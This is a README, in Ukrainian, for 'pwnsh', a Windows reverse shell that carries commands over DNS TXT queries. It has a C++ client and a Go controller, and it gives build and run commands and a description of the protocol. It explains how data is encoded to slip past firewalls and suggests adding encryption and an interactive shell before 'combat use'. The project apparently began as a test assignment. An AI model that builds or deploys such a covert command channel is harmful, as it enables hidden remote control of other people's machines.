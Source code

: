 # pwnsh

Reverse shell over DNS для Windows (Pwn-Shell!)

Автор - Андрій "Андерсон" Дунай.

Ліцензія - [WTFPL](http://www.wtfpl.net/).

## Компоненти

- `client` - клієнтська аплікація на C++, будується за допомогою MinGW.

  Не залежить від `libstdc++` для покращення переносності і зменшення розміру бінарника (жодних векторів та new/delete - тільки stdlib, тільки олдскул!)

  Фінальний бінарник після `strip` займає <50 КБ.

  Збірка та запуск:

  ```sh
  $ cd client
  $ make
  $ # або:
  $ make DNS_SERVER=127.0.0.1 DNS_POLL_INTERVAL=1000
  $ ./pwnsh.exe
  ```

- `server` - імплементація контролера для клієнта. Написана на Go.

  Збірка та запуск:

  ```sh
  $ cd server
  $ go run . 0.0.0.0:53
  $ # для побудови бінарника:
  $ go build .
  ```

## Як це працює

Клієнт здійснює полінг DNS-сервера за допомогою TXT-запитів. Хост в запиті - це дані, які клієнт хоче передати серверу. Відповідь - це дані, які сервер хоче передати клієнту.

Якщо клієнт не має жодних даних для сервера, він надсилає пустий TXT-запит.

Якщо сервер не має команд для клієнта, які очікують виконання, то він надсилає пусту TXT-відповідь.

Всі дані кодуються в base64 з деякими модифікаціями (`_-` замість `+/`), щоб виглядати як валідні ідентифікатори і не дратувати фаєрволи.

Пусті запити містять лише крапку (`DnsQuery_A` автоматично дописує її в кінці хоста в кожному запиті).

## Речі, які можна легко вдосконалити

- Я звик писати коментарі і логи англійською мовою, тому в цьому коді буде суміш англійської та української мов.
- Дані не шифруються. Перед бойовим використанням варто було б використати принаймні якийсь симетричний алгоритм.
- Як і вказано в завданні, кожна команда запускається в окремій оболонці.
  Проте було б нескладно додати можливість використання оболонки в інтерактивному режмиі впродовж тривалішого часу - це б спростило навігацію по системі.
- Поточна імплементація сервера розрахована на єдиного активного клієнта. Можна додати можливість обирати, якому з клієнтів надсилати команду.

